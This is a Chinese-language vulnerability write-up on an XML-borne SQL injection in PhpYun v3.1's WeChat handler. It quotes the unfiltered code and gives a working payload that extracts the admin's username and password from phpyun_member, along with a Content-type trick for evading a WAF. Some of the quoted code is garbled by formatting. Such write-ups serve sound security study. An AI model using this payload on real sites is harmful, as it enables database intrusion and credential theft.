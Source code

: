 ```yaml
---
title: Phpyun v3.1 xml 注入漏洞
id: zhfly3090
---
```


# Phpyun v3.1 xml 注入漏洞

## 一、漏洞简介

函数过滤不严谨，用户POST过去的内容没有进行任何过滤，导致攻击者可以利用XML实体进行注入，从而获取数据库敏感信息

## 二、漏洞影响

3.1 build14061

## 三、复现过程

### 漏洞分析

本次漏洞文件位于 `weixin/model/index.class.php` ，代码如下：

private function responseMsg()
{
$postStr = $GLOBALS["HTTP_RAW_POST_DATA"];

```
if (!empty($postStr)){

```
 $postObj = simplexml_load_string($postStr, 'SimpleXMLElement', LIBXML_NOCDATA);
          $fromUsername = $postObj-&gt;FromUserName;
          $toUsername = $postObj-&gt;ToUserName;
          $keyword = trim($postObj-&gt;Content);
          $time = time();
          $textTpl = "&lt;xml&gt;
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 %s
 &lt;![CDATA[%s]]&gt;
 &lt;![CDATA[%s]]&gt;
 0
 &lt;/xml&gt;"; 
```

if(!empty( $keyword ))

{

$msgType = “text”;

$contentStr = “Welcome to wechat world!”;

$resultStr = sprintf($textTpl, $fromUsername, $toUsername, $time, $msgType, $contentStr);

echo $resultStr;

}else{

echo “Input something…”;

}

```
 }else {
   echo "";
   exit;
  } 
``` `}` 
```

这里将$postStr = $GLOBALS["HTTP_RAW_POST_DATA"]，通过 simplexml_load_string解析后的内容，将其直接带入了$textTpl。

然而$postStr = $GLOBALS["HTTP_RAW_POST_DATA"] ，直接获取了POST过来的XML内容，没有经过任何处理，并在最后将其输出。
if($MsgType=='event')
{
$MsgEvent = $postObj->Event;
if ($MsgEvent=='subscribe')
{
$centerStr = "config['sy_webname'])."！/n 1：您可以直接回复关键字如【销售】、【南京 销售】、【南京 销售 XX公司】查找您想要的职位/n绑定您的账户体验更多精彩功能/n感谢您的关注！]]>";
$this->MsgType = 'text';

```
 }elseif ($MsgEvent=='CLICK')
  {
   $EventKey = $postObj->EventKey;
   if($EventKey=='我的帐号'){
    $centerStr = $this->bindUser($fromUsername);

}elseif($EventKey==‘我的消息’)

{

$centerStr = $this->myMsg($fromUsername);

}elseif($EventKey==‘面试邀请’)

{

$centerStr = $this->Audition($fromUsername);

}elseif($EventKey==‘简历查看’)

{

```
$centerStr = $this-&gt;lookResume($fromUsername); 
```

}elseif($EventKey==‘刷新简历’)

{

```
$centerStr = $this-&gt;refResume($fromUsername); 
``` 
```

从上述代码可以看出来，当满足那上面的条件后都会进入不同的相应的函数，但是都会进入一个名为`isBind`函数。

接下来追踪isBind函数：

private function isBind($wxid='')
{

```
if($wxid)
{
 $User = $this->obj->DB_select_once("member","`wxid`='".$wxid."'","`uid`,`username`");
}
if($User['uid']>0)
{
 $User['bindtype'] = '1';
 $User['cenetrTpl'] = "<![CDATA[您的".iconv('gbk','utf-8',$this->config['sy_webname'])."帐号：".$User['username']."已成功绑定！ /n/n/n 您也可以config['sy_weburl']."/wap/index.php?m=login&wxid=".$wxid."/">点击这里进行解绑或绑定其他帐号]]>";

}else{

$Token = $this->getToken();

$Url = ‘[https://api.weixin.qq.com/cgi-bin/user/info?access_token=’.$Token.’&openid=’.$wxid.’&lang=zh_CN](https://api.weixin.qq.com/cgi-bin/user/info?access_token='.%24Token.'&openid='.%24wxid.'&lang=zh_CN)’;

$CurlReturn  = $this->CurlPost($Url);

$UserInfo    = json_decode($CurlReturn);

$wxid        = $wxid;

$wxname      = $UserInfo->nickname;

$this->config[‘token_time’] = time();

$User[‘cenetrTpl’] = ‘<![CDATA[您还没有绑定帐号，config[‘sy_weburl’].’/wap/index.php?m=login&wxid=’.$wxid.’">点击这里进行绑定!]]>’;

}

return $User; `}` 
```

可以看到，从始至终wxid变量始终没有经过任何过滤，在第一行的`$wxid`就是我们传进来的FromUserName的值，可以直接进入SQL语句，进行任意注入。

因此我们可以针对其构造Payload，内容如下：

一般来说，我们只需要将Payload以POST形式的数据发出去，就可以成功的获取数据库敏感信息，但是服务器如果有WAF，提交的恶意数据必然会被拦截，因此，我们需要修改HTTP头，伪装成XML就可以不受到WAF的拦截：

```
Content-type:text/xml;charset=utf-8 
```

### 漏洞复现

我们首先打开目标站点，点击网页左侧注册按钮，首先注册一个账号：

![image](../img/5cab61023ded42d334495b61bb74b950.png)

这个时候已经是登录状态，我们按`F9` 调出 `Hack Bar` 的界面，点击`Enable Post data` ，将Payload写入输入框，如下图所示：

![image](../img/d2bef9ab9703693df03b71a7c24c8102.png)

#### payload文件:

##### 注:payload文件内容需手动输入相应位置

```
<?xml version="1.0" encoding="utf-8"?>
  <xml>
    1111
    1111' and 1=2 union select 1,(select concat(username,password) from phpyun_member limit 0,1)#
    1402550611
    event
    CLICK
    我的账号
    0
  </xml> 
```

接下来还需要修改HTTP头，伪装成XML，点击浏览器上方工具栏，打开`Tamper Data` ，点击启动。

![image](../img/f95383a207528fddfb49ec6bbc7cf7dd.png)

现在前提工作已经做好，接下来重新访问网站，Tamper Data 就会抓取到数据包，再对数据包进行更改，操作如图：

![image](../img/a919a67706dd098587f6bcebbbc53036.png)

然后点击确定就可以将构造好的数据包发出去：

![image](../img/3532eb0a626bc91b65be0eb0f379fd77.png)

成功获取管理员账号密码。

## 参考链接

> https://blog.csdn.net/whatiwhere/article/details/84862236